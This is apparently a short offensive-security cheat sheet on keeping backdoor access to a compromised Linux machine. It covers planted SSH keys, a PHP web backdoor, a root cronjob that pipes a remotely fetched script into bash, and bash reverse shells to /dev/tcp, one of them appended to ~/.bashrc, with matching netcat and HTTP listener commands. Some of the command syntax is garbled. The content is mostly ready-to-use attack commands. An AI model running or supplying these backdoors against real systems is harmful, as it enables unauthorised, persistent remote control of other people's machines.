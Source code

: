 					SSH BackDoor

- ssh-keygen                                   Generates ssh key
	- Leave public key                      	 Place '/home/.ssh'
	- chmod 600 id_rsa               	  Gives permissions
- ssh -i id_rsa user@ip                    Use BackDoor

<!-- -->
					PHP BackDoor
- setup netcat
- Location                                         /var/www/html 
    - BackDoor script

- Where to execute script:                https://ip/PHP-BackDoor.php

<!-- -->

					Cronjob BackDoor
- Add to Cronjob                              `* *     * * *   root    curl http://<IP>:8080/shell | bash `
   
- Add Script inside Cronjob            ``#!/bin/bash bash -i >& /dev/tcp/ip/port 8080>&1`

- Host HTTP server:                             `python3 -m http.server 8080`
- listen with netcat:			   `nc -nvlp <port>`

<!-- -->

					.bashrc
 -  If a user has bash as their login shell, the ".bashrc" file in their home directory is executed when an interactive session is launched.
- you dont know when the user will log in so always have netcat listening
    
- `echo 'bash -i >& /dev/tcp/ip/port 0>&1' >> ~/.bashrc`

<!-- -->

					Links
- https://airman604.medium.com/9-ways-to-backdoor-a-linux-box-f5f83bae5a3c
